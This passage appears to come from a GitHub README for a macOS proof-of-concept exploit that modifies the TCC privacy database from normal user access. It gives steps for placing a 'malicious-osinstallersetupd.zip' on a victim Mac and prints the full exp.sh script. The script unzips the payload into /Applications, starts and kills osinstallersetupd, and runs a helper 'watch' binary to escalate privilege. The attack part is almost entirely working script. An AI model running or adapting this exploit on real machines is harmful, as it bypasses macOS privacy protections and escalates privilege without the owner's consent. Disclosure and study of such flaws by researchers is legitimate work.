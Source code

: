 ```shell
```





### Step 2: Download the malicious file `malicious-osinstallersetupd.zip` to the victim macOS

Move the compressed `malicious-osinstallersetupd.zip` to the `pre-compiled-malicious-app` folder, then execute  `pre-compiled-malicious-app/exp.sh` in normal user access, you will find the TCC.db has been modified.

```shell
pre-compiled-malicious-app:
- do-not-run-me.sh
- exp.sh
- malicious-osinstallersetupd.zip
- watch
- watch.c
```

**pre-compiled-malicious-app/do-not-run-me.sh:**

```shell
#!/bin/sh
/Applications/testfolder/target/Frameworks/OSInstallerSetup.framework/Versions/A/Resources/osinstallersetupd
```



**pre-compiled-malicious-app/exp.sh:**

```shell
#!/bin/sh

# clang -arch arm64 -arch x86_64 -o watch watch.c 
echo "This exp is based on macOS15.0.pkg"

rm -rf /Applications/testfolder ./__MACOSX
mkdir /Applications/testfolder
rm -rf ./target


unzip -d . malicious-osinstallersetupd.zip > /dev/null 2>&1
rm -rf ./__MACOSX

mv target /Applications/testfolder/target


echo "LPE"
rm -rf /tmp/do-not-run-me.sh /tmp/watch

cp ./do-not-run-me.sh /tmp/
cp ./watch /tmp/
nohup /tmp/do-not-run-me.sh &

sleep 5

killall osinstallersetupd

nohup /tmp/watch &

sleep 2
nohup /tmp/do-not-run-me.sh &

sleep 10
killall osinstallersetupd 
```